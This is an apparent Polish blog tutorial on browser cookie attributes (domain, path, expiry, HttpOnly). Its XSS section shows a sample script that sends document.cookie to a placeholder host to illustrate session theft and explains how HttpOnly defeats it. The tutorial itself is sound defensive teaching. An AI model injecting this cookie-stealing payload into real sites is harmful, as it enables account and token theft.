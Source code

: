 ### Domain i path

Jeśli chodzi o `domain` oraz `path`, to określają nam one zasięg danego ciasteczka. Możemy ustawić ciasteczko na danej domenie, domenie nadrzędnej lub subdomenie aktualnej domeny. Nie możemy natomiast dla innej domeny lub innej subdomeny domeny nadrzędnej (potocznie „rodzeństwa" domeny ;)). Możemy też zawęzić zasięg ciasteczka względem adresu url. Ustawiając `path` na `'/users'` ciasteczko będzie dostępne tylko pod adresem `https://domain.example.com/users/*`. Bardzo dobrze zostało to przedstawione w tym artykule [https://geek.justjoin.it/cookie-jak-zastosowac-atrybuty-domain-i-path](https://geek.justjoin.it/cookie-jak-zastosowac-atrybuty-domain-i-path). Kiedy mówię o zasięgu ciasteczek, to mam na myśli domenę i url, z jakich wykonujemy zapytania http. Ciasteczka, które są poza aktualnym url, albo mają ustawioną inną domenę, nie zostaną dołączone do zapytania.

### Czas życia ciasteczka

Właściwość `expire` określa, kiedy dane ciasteczko wygasa, czyli po prostu zostaje usunięte. To pole określa datę wygaśnięcia, ale mamy też do dyspozycji właściwość `max-age`, które określa, w sekundach, ile ciasteczko będzie istniało.

```jsx
document.cookie = 'cookie=123; expires=Mon Sep 30 2021 13:52:50 GMT+0200';
document.cookie = 'cookie=123; max-age=3600';
```

W pierwszym przykładzie ciasteczko wygaśnie 30 września 2021 roku o konkretnej godzinie. Natomiast w drugim podajemy dokładny czas trwania życia ciasteczka w sekundach, tutaj akurat to jest godzina.

### Flaga HttpOnly

Jest to bardzo specyficzna właściwość, ponieważ nie może być ustawiona na `true` z poziomu kodu JavaScript. Jak wspomniałem wcześniej, ciasteczka są wysyłane na serwer razem z zapytaniem Http. Serwer może też te ciasteczka ustawić nagłówkiem `Set-Cookie`. Jeśli ciasteczko jest ustawione przez nagłówek, a nie przez nasz kod, to może mieć ono flagę `HttpOnly` ustawioną na `true` (musimy to określić w nagłówku). Oznacza to, że nie będziemy mieć dostępu do tego ciasteczka przez `document.cookie`, ani w żaden inny sposób - nawet tylko do odczytu. Ponadto kod JavaScript nie ma dostępu do nagłówka `Set-Cookie`.

Jest rozwiązanie idealne do przekazywania wrażliwych danych pomiędzy serwerem i klientem. Poprzez ataki typu XSS bardzo łatwo można uzyskać dostęp np. do tokenu autoryzacyjnego poprzez `document.cookie`, `localStorage` lub `sessionStorage` (w zależności od tego, gdzie go przechowujemy). Dzięki `HttpOnly` możemy temu zapobiec. Zobaczmy, na czym dokładnie polega zagrożenie.

### Atak XSS

Atak z angielskiego znany jako Cross Site Scripting w podstawach jest bardzo prosty. Polega na umieszczeniu na stronie jakieś skryptu, który doprowadzi do wycieku danych. Można na przykład wkleić poniższy fragment kodu HTML w input, którego wartość będzie później gdzieś renderowana.

```html
<script type=“text/javascript”>
	document.location=“http://some.domain.com/?c=“+document.cookie;
</script>
```

Powyższy skrypt zmieni adres url na adres konkretnego serwera i doklei do naszego ciasteczka jako część query. Serwer podczas tego zapytania przechwyci ciasteczka i będzie mógł wyciągnąć z nich np. token autoryzacyjny i uzyskać dostęp do wrażliwych danych z naszego API. Jak wspomniałem wcześniej, jeśli ustawimy ciasteczko nagłówkiem przez serwer i `HttpOnly` będzie ustawione na `true`, to `document.cookie` nie zwróci go. Co za tym idzie, powyższy atak XSS się nie powiedzie.
